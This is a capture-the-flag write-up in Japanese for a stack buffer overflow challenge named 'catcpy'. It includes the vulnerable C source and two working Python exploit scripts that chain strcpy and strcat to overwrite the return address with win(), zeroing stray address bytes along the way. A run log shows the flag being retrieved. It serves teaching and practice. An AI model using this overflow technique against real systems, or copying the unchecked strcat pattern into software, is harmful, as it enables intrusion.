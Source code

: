 # catcpy:Pwn:148pts
`strcat` and `strcpy` are typical functions used in C textbooks.  

[catcpy.tar.gz](catcpy.tar.gz)  

`nc 34.170.146.252 13997`  

# Solution
ファイル一式と接続先が渡される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char g_buf[0x100];

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

void get_data() {
  printf("Data: ");
  fgets(g_buf, sizeof(g_buf), stdin);
}

int main() {
  int choice;
  char buf[0x100];

  memset(buf, 0, sizeof(buf));
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  puts("1. strcpy\n" "2. strcat");
  while (1) {
    printf("> ");
    if (scanf("%d%*c", &choice) != 1) return 1;

    switch (choice) {
      case 1:
        get_data();
        strcpy(buf, g_buf);
        break;

      case 2:
        get_data();
        strcat(buf, g_buf);
        break;

      default:
        return 0;
    }
  }
}
```
`strcpy`と`strcat`を選択でき、任意の回数行える。  
`win`があるのでそこへ飛ばせばよい。  
`buf`の最大まで`strcpy`を行い、その後`strcat`することで、範囲外に文字列を連結することができるとわかる。  
以下のように`win`を単純に連結する。  
```python
from ptrlib import *

elf = ELF("./catcpy")

sock = Process("./catcpy")
# sock = Socket("nc 34.170.146.252 13997")

sock.sendlineafter("> ", 1)
payload = b"A" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"B" * 0x19
payload += p64(elf.symbol("win"))  # 0x0000000000401256
sock.sendlineafter("Data: ", payload)

sock.sh()
```
実行してどの操作でもない`0`を選択し、プログラムを終了させると`Invalid address 0x7fa900401256`であった。  
`get_data`はNULLで読み取りを終了し、`strcat`は末尾にNULLを書き込むため上書き前アドレスが少し残っているようだ。  
どうにかして`0x7fa9`の箇所を`0x0000`にしたい。  
運のよいことに何度でも操作は行えるので、`strcat`の書き込む末尾のNULLで`0x00`埋めしてやればよい。  
以下のようにsolver.pyで行う。  
```python
from ptrlib import *

elf = ELF("./catcpy")

# sock = Process("./catcpy")
sock = Socket("nc 34.170.146.252 13997")

# 0xXXXXwin
sock.sendlineafter("> ", 1)
payload = b"S" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"A" * 0x19
payload += p64(0xAAAAAAAAAA)
sock.sendlineafter("Data: ", payload)

# 0x00XXwin
sock.sendlineafter("> ", 1)
payload = b"S" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"B" * 0x19
payload += p64(0xBBBBBBBB)
sock.sendlineafter("Data: ", payload)

# 0x0000win
sock.sendlineafter("> ", 1)
payload = b"S" * 0xFF
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 2)
payload = b"C" * 0x19
payload += p64(elf.symbol("win"))  # 0x401256
sock.sendlineafter("Data: ", payload)

sock.sendlineafter("> ", 0)

sock.sh()
```
実行する。  
```bash
$ python solver.py
[+] __init__: Successfully connected to 34.170.146.252:13997
[ptrlib]$ Alpaca{4_b4sic_func_but_n0t_4_b4s1c_3xp101t}[+] thread_recv: Connection closed by 34.170.146.252:13997
```
flagが得られた。  

## Alpaca{4_b4sic_func_but_n0t_4_b4s1c_3xp101t}